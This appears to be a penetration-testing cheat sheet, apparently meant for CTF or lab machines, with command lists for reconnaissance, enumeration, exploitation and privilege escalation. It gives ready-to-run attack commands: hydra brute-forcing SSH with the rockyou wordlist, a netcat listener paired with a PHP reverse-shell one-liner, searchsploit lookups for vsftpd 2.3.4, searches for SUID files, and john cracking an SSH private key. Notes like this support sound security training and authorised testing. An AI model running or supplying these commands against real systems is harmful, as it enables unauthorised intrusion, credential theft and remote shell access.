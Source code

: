## Reconnaissance
- command, tool
  - whois
  - nslookup
  - theHarvester
  - Sublist3r

## Enumeration
- nmap -sV -O <target>
- gobuster dir -u http://<target> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http
- smbclient //<target>/anonymous -N
- ftp -n <target>
- command, tool
  - nmap
  - gobuster、nikto
  - nikto
  - wpscan
  - CyberChef


## Exploitation
- hydra -l user -P /usr/share/wordlists/rockyou.txt -f -o found.txt ssh://<target>
- searchsploit vsftpd 2.3.4
- searchsploit -x exploit/unix/remote/17491.txt
- nc -lvnp 12345
- php -r '$sock=fsockopen("<target>",12345);exec("/bin/sh -i <&3 >&3 2>&3");'
- command, tool
  - Metasploit Framework
  - BurpSuite
  - searchsploit,exploit-db
  - hydra


## Privilege Escalation
- id
- python3 -c 'import pty; pty.spawn("/bin/bash")’
- sudo -l
- find / -group $(id -gn) -perm -g=x -type f 2>/dev/null
- find / -user root -perm -u=s -type f 2>/dev/null
- python3 ssh2john.py id_rsa > id_rsa_hash.txt
- john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_hash.txt
- command, tool
  - linpeas
  - pspy
  - sudo -l
  - GTFOBins
  - searchsploit,exploit-db

